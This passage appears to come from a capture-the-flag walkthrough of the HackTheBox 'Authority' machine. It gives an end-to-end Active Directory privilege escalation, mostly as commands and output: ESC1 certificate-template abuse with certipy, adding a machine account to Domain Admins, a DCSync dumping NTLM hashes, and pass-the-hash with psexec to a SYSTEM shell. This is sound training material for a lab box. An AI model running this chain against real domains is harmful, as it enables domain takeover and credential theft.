    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

Since we also know from winpeas that svc_ldap can add computers to the domain. We can create a new computer and abuse the certificate to escalate privileges.

```powershell
SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
```

```bash
$ certipy account create -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -user hax  -dc-ip 10.10.11.222
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : hax$
    unicodePwd                          : Pm0ZDqa5XlOkgYI7
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/hax
                                          RestrictedKrbHost/hax
    dnsHostName                         : hax.authority.htb
[*] Successfully created account 'hax$' with password 'Pm0ZDqa5XlOkgYI7'

$ certipy req -u 'hax$' -p 'Pm0ZDqa5XlOkgYI7' -ca 'AUTHORITY-CA' -target authority.htb -template 'CorpVpn' -upn "administrator@authority.htb" -dns 'authority.htb'
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

$ certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...

[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

Can’t seem to get an admin TGT. Googling the error we can find [this](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d) page which mentions using another tool and ldap. `certipy` seems to have an option called ldap-shell, so let’s try that.

```bash
$ certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222 -ldap-shell
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.10.11.222:636'
[*] Authenticated to '10.10.11.222' as: u:HTB\Administrator
Type help for list of commands

# add_user_to_group hax$ 'DOMAIN ADMINS'
Adding user: hax to group Domain Admins result: OK
```

Seems to work. Since we’re admin we can add the computer account to the Domain Admins groups. At this point we have access to a Domain Admin account and we can do all kinds of fun things. One way to get a NT AUTHORITY\SYSTEM shell would be to make use of RunAs.exe from [SharpCollection](https://github.com/Flangvik/SharpCollection) but here i’ve decided to stick to linux based tools.

```bash
$ impacket-secretsdump 'authority.htb/hax$:Pm0ZDqa5XlOkgYI7@authority.htb'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x31f4629800790a973f9995cec47514c6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a15217bb5af3046c87b5bb6afa7b193e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
HTB\AUTHORITY$:aes256-cts-hmac-sha1-96:f1a35956687116bcac2d035650ef6d47de1fd872f09ca454a19769798ec621da
HTB\AUTHORITY$:aes128-cts-hmac-sha1-96:b5d090d74c9963c14dc7e8b25c4de273
HTB\AUTHORITY$:des-cbc-md5:57bac1023bd37ff4
HTB\AUTHORITY$:plain_password_hex:72d75337c706e7de00e520e1a581b6668bbfa1be7b1c5a82bfe31a6c4012cc36aa4b9a401a89fc943e3ba4d9cfdef566f59b734a0153faa416acd3381253054aef231ae1642b0883b77beff3ef533b301e33dc4c375fbbeb4622c9dcecb0f8e25dc497d0368bfc017bd16edc31c5526038aa3f15c326c658adf76a967bbed61b9d6f675748dced524987ebb52b5ba280bb14730e3c64dee09ae84787262345eac2a2b072dcec56c891785013e887e0975ef2564f05630cb3679fb6379b00ea1220fc4d7075bd2c479f83e2394e60e93214668f9611a3082ae9ce178ed3047273b3ac3541c0b1a080893f538ae9cf5a98
HTB\AUTHORITY$:aad3b435b51404eeaad3b435b51404ee:5cdb5ea1b33d127a4664e7b0a751d655:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xd5d60027f85b1132cef2cce88a52670918252114
dpapi_userkey:0x047c1e3ad8db9d688c3f1e9ea06c8f2caf002511
[*] NL$KM
 0000   F9 41 4F E3 80 49 A5 BD  90 2D 68 32 F7 E3 8E E7   .AO..I...-h2....
 0010   7F 2D 9B 4B CE 29 B0 E6  E0 2C 59 5A AA B7 6F FF   .-.K.)...,YZ..o.
 0020   5A 4B D6 6B DB 2A FA 1E  84 09 35 35 9F 9B 2D 11   ZK.k.*....55..-.
 0030   69 4C DE 79 44 BA E1 4B  5B BC E2 77 F4 61 AE BA   iL.yD..K[..w.a..
NL$KM:f9414fe38049a5bd902d6832f7e38ee77f2d9b4bce29b0e6e02c595aaab76fff5a4bd66bdb2afa1e840935359f9b2d11694cde7944bae14b5bbce277f461aeba
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
hax$:11605:aad3b435b51404eeaad3b435b51404ee:4cbfeb31cc14a4b10113ef803d4d3db4:::
 ... snip ...

$ impacket-psexec 'authority.htb/Administrator@authority.htb' -hashes 'aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on authority.htb.....
[*] Found writable share ADMIN$
[*] Uploading file pwrcwxxH.exe
[*] Opening SVCManager on authority.htb.....
[*] Creating service gCSK on authority.htb.....
[*] Starting service gCSK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Since we have access to a Domain Admin account we can do a DCSync attack using `impacket-secretsdump`. This way even if the box removes the computer account we’ve added we can get an Administrator shell. We could try a Golden Ticket attack here since we have the hash of the krbtgt account but i’ve just done a pass the hash attack with impacket-psexec to get a shell and access root.txt
